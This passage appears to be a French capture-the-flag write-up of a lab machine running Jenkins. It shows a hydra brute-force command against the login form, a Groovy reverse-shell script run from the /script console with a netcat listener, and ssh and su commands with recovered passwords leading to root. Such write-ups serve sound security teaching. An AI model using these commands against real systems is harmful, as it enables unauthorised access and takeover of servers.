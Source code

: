 ```bash
git clone https://github.com/danielmiessler/SecLists
hydra 127.0.0.1 -s 40 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P SecLists/Passwords/10-million-password-list-top-10000.txt -w 5
```

![image](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/00a4d86e-04c0-4254-b65e-a95f8317ce15)

Hydra trouve alors que le mot de passe correspondant au compte admin (qui est le compte par défaut de Jenkins) est `spongebob`. On peut alors se connecter et se rendre sur la page `/script`, qui nous permet d'exécuter des scripts. On peut utiliser [ce repository](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) qui permet de réaliser un reverse shell.

```Groovy
String host="<target>";
int port=9000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![image](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/211e57e2-a916-489e-8429-4770e1cbe599)

On peut alors utiliser `netcat` depuis la machine hôte, qui permet de créer des sockets TCP ou UDP, que ce soit en connexion ou en attente de connexion. On précise le port configuré précedemennt (soit 9000).

![image](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/487cb815-e51c-4530-bb54-b5352fd1ea4c)

Ensuite en appuyant sur le bouton `Run` de la page `/script`, en attendant quelques secondes on voit que la connexion s'effectue que nous sommes connectés en tant que `jenkins`.

![image](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/ea3e6473-7a96-44bb-a8fc-ad13759f469e)

En cherchant comme pour le `user.txt` dans le dossier otp on trouve un fichier `note.txt` qui contient le mot de passe de l'utilisateur `root`.

> ambiance_skandal_tu_connais_deja

![image](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/7961413a-fd80-4d5e-85e9-75b94c74d4a5)

On peut alors ensuite se connecter en ssh soit à `root` directement (je n'ai pas testé) soit à `squeezie` et ensuite switcher d'utilisateur.

```bash
ssh squeezie@<target> # Enter password `time_time_best_single`
su root # Enter password `ambiance_skandal_tu_connais_deja`
```

Ensuite dans le home de root (`/home/root`) on trouve le fichier `root.txt` qui contient le flag.

![image](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/de31f874-f1ea-4b26-abde-67a3d51f0ca5)
